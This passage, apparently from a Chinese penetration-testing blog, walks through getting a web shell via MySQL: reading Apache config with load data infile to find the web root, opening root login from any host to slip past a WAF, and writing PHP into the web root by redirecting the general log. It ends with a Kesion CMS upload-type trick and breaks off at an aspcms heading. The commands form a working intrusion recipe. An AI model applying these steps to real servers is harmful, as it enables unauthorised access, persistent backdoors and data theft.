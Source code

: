     use mysql;
    create table xx(xx text);
    load data infile "D:\SOFT\webbuild\php\Apache/conf/https.conf" into table xx;
    select * from xx;
    # 在搜索结果里面检索关键词documentroot找到网站根目录
    
        

**如果有waf会拦截不让导shell**-
1.找免杀马-
2.开启外联

    #开外链。将mysql root放在所有地址上并设置密码
    Grant all privileges on *.* to 'root'@'%' identified by '123.com' with grant option;
    #公网地址链接目标mysql服务器
    mysql.exe -h 200.1.1.1 -uroot -p   
    
        

3.通过远程地址链接mysql服务器导入一句话

**如果导出函数into outfile 被禁用**-
1.生成日志getshell-
genaeral log设置为on，备份genaeral log file路径后修改为我们要导的shell路径。然后执行带有一句话的sql语句写入日志文件，成功getshell。完成后记得还原genaeral log file路径-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629000342947.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)备份路径：genaeral log file：D:\\SOFT\\webbuild\\php\\MySQL\\data\\DESKTOP-CCDQEGR.log

执行：select “<?php phpinfo();?>”-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020062900043740.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
写入成功：http://localhost/xxx.php-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629000513831.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

    #命令行操作：
    set global general_log=on;
    set global general_log_file='shell路径';
    #还原
    set global general_log=off;
    set global general_log_file='D:\SOFT\webbuild\php\MySQL\data\DESKTOP-CCDQEGR.log';
    
        

## kesion cms

科迅cms需要使用ie低版本浏览器-
**一、添加上传类型**-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629000643573.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629000656862.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
这里会回显文件名不合法。但是实际上已经上传成功（部分版本）

## aspcms
